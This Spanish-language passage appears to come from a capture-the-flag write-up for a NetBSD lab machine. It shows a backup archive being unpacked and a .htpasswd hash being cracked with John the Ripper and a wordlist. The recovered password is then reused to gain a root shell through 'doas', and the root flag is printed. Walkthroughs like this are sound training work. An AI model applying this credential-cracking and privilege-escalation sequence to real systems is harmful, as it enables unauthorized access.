 
Lo descomprimimos y dentro vemos otro archivo `.htpasswd`.

```bash
❯ ls
 devel_backup-2020-09-16.tar.gz   id_rsa
❯ file devel_backup-2020-09-16.tar.gz
devel_backup-2020-09-16.tar.gz: gzip compressed data, last modified: Tue Nov 24 09:18:51 2020, from Unix, original size modulo 2^32 12288
❯ tar -xf devel_backup-2020-09-16.tar.gz
❯ ls
 devel-2020-09-16   devel_backup-2020-09-16.tar.gz   id_rsa
❯ cd devel-2020-09-16
❯ ls
 webapi   www
❯ tree -fas
.
├── [         22]  ./webapi
│   └── [       7072]  ./webapi/weather.lua
└── [         38]  ./www
    ├── [         47]  ./www/.htpasswd
    └── [        378]  ./www/index.html

2 directories, 3 files
```

Al leer el archivo, vemos una contraeña `hasheada`, pero que es distinta a la obtuvimos previamente. Asi con john vamos a intentar crackear este otro `hash`.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash2
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littlebear       (webapi_user)
1g 0:00:00:00 DONE (2023-06-29 18:21) 7.142g/s 93257p/s 93257c/s 93257C/s gamboa..hello11
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Obtenemos una nueva contraseña `littlebear`, que curiosamente corresponde a la del usuario `root`, pero para migrar no podemos hacer uso de `su root`, ya que en `NETBSD` lo hacemos usando el comando `doas`.

```bash
luanne$ su root 
su: You are not listed in the correct secondary group (wheel) to su root.
su: Sorry: Authentication error
luanne$ doas sh
Password:
# whoami
root
```

Finalmente solo debemos dirigirnos al directorio personal del usuario root y visualizar la segunda flag `root.txt` y asi habriamos concluido.

```bash
# cd /root
# cat root.txt
7a9b5c206e8e8ba09bb99bd113675f66
```

